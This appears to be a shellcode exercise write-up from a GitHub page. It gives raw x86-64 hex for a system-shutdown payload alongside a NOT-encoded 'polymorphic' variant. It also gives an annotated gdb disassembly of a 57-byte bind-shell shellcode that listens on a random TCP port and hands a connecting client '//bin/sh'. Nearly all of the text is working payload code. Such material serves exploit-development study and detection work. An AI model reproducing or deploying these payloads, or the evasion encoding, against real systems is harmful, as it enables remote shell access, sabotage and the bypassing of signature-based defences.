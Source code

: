Original shellcode :
\x48\x31\xc0\x48\x31\xd2\x50\x6a\x77\x66\x68\x6e\x6f\x48\x89\xe3\x50\x66\x68
\x2d\x68\x48\x89\xe1\x50\x49\xb8\x2f\x73\x62\x69\x6e\x2f\x2f\x2f\x49\xba\x73
\x68\x75\x74\x64\x6f\x77\x6e\x41\x52\x41**\x50\x48\x89\xe7**\x52\x53\x51\x57\x48
\x89\xe6\x48\x83\xc0**\x3b\x0f\x05**

The new shellcode :
\x48\xb8\xd2\x97\xff\xff\x91\x90\x88\xff\x48\xf7\xd0\x50\x48\x8d\x4c\x24\x04
\x48\x89\xe6\x48\xb8\x97\x8a\x8b\x9b\x90\x88\x91\xff\x48\xf7\xd0\x50\x48\xb8
\xd0\x8c\x9d\x96\x91\xd0\xd0\x8c\x48\xf7\xd0**\x50\x48\x89\xe7**\x99\x52\x51\x56
\x57\x48\x8d\x34\x24\x89\xd0\xb0**\x3b\x0f\x05**

It shutdown the system where it is run nothing more.

## bind TCP random port 

The original code is as follow (gdb dump) :  
**Size : 57 bytes**
```nasm
Dump of assembler code for function code:

   ;socket(AF_INET,SOCK_STREAM, 0)
=> 0x0000555555558060 <+0>:	xor    rsi,rsi
   0x0000555555558063 <+3>:	mul    rsi		; RAX,RDX,RSI set to 0
   0x0000555555558066 <+6>:	inc    esi		; SOCK_STREAM
   0x0000555555558068 <+8>:	push   0x2
   0x000055555555806a <+10>:	pop    rdi		; AF_INET
   0x000055555555806b <+11>:	mov    al,0x29		; socket syscall value
   0x000055555555806d <+13>:	syscall 		; exec socket

   ; listen(sockfd, 0)
   ; Here I've learned that we can use listen without bind, and a random is assigned
   0x000055555555806f <+15>:	push   rdx		
   0x0000555555558070 <+16>:	pop    rsi		; backlog 0
   0x0000555555558071 <+17>:	push   rax
   0x0000555555558072 <+18>:	pop    rdi		; sockfd
   0x0000555555558073 <+19>:	mov    al,0x32		; listen syscall value
   0x0000555555558075 <+21>:	syscall 		; exec listen

   ;accept(sockfd, null, null)
   0x0000555555558077 <+23>:	mov    al,0x2b		; accept syscall value
   0x0000555555558079 <+25>:	syscall 		; exec accept

   ; dup2(sockfd, stdX) loop
   0x000055555555807b <+27>:	push   rdi
   0x000055555555807c <+28>:	pop    rsi		; in theory set to 3 (stderr + 1)
   0x000055555555807d <+29>:	xchg   rdi,rax		; RDI set to accept sockfd
   ;loop:
   0x000055555555807f <+31>:	dec    esi		; counter from 2 to 0 (stderr to stdin)
   0x0000555555558081 <+33>:	mov    al,0x21		; dup2 syscall value
   0x0000555555558083 <+35>:	syscall 		; exec syscall
   0x0000555555558085 <+37>:	jne    0x55555555807f <code+31> ; loop until RSI = 0

   ; execve("//bin/sh", null, null)
   0x0000555555558087 <+39>:	push   rdx		; string terminator
   0x0000555555558088 <+40>:	movabs rdi,0x68732f6e69622f2f 
   0x0000555555558092 <+50>:	push   rdi
   0x0000555555558093 <+51>:	push   rsp
   0x0000555555558094 <+52>:	pop    rdi		; point to "//bin/sh"
   0x0000555555558095 <+53>:	mov    al,0x3b          ; execve syscall value
   0x0000555555558097 <+55>:	syscall 		; exec execve
```
